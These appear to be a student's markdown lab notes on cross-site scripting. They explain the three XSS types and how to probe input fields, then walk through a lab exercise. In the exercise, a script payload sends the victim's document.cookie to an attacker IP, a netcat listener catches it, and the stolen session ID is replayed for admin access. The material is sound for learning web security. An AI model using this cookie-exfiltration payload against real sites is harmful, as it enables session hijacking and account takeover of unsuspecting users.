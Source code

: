 # Types of XSS
In a web-application, data sanitization is extremely important so as to prevent the attacker from injecting and potentially executing malicious code.

There are three types of XSS: **stored**, **reflected** and **DOM-based**. 

**Stored XSS** is when the the exploit payload is stored in the database or the server. When someone views the vulnerable page, the server retrieves this payload and displays to that person This usually exists in forum software - comment sections, or in product reviews.

**Reflected XSS** is when the payload is included in a crafted request or link. The web app takes the value and places into the page content, attacking the person submitting the request or viewing the link (you can craft a malicious link/request and ask someone else to click). This often occurs where there are user input.

DOM-based XSS attacks are similar to the other two types but are solely within the page's Document Object Model (DOM).

# Identifying XSS Vulnerabilities

We can identify input fields and examine them for any vulnerabilities by testing out common special characters.
```
< > ' " { } ;
```

- `< >` are used in HTML to denote elements.
- `{ }` are used in JavaScript as function declarations.
- `' "` are used to denote strings.
- `;` are used to mark the end of a statement.

If these characters are not encoded or sanitised, the application is vulnerable to XSS attacks, as we can then use our inputs to change the code, allowing us to build malicious code that can be executed within the victim's browser.

# Basic XSS
This basic XSS is demonstrated on the Windows 10 Lab Machine. 

When faced with a user input field, we can first test to see if the special characters are being sanitised (removed or encoded). Once we can confirm that they are not removed, we can start to craft a basic XSS payload: `<script>alert('XSS')</script>`.


***
# Topical Exercises

### Exercise 1:
Attack Machine: 
Windows 10 Lab Machine:
```bash
# Payload to put on web app
<script>new Image().src="http://192.168.119.164/cool.jpg?output="+document.cookie;</script>
```

```powershell
# Edit Powershell script
$username="admin"
$password="p@ssw0rd"
$url_login="http://127.0.0.1/login.php"

$ie = New-Object -com InternetExplorer.Application
$ie.Visible = $true
$ie.navigate("$url_login")
while($ie.ReadyState -ne 4){ start-sleep -m 1000}
$ie.document.getElementsByName("username")[0].value="$username"
$ie.document.getElementsByName("password")[0].value="$password"
start-sleep -m 10
$ie.document.getElementsByClassName("btn")[0].click()
start-sleep -m 10000 # increase time delay
$ie.Quit()
```

```bash
# Run on attacker's machine to get victim's cookie
sudo nc -nvlp 80
```

![[Pasted image 20221217164120.png]]

Got the cookie: PHPSESSID=e1al2favu71fhgtskkroo4cejq

Input into the attacker's browser via Cookie-Editor, and obtain admin access.
![[Pasted image 20221217164747.png]]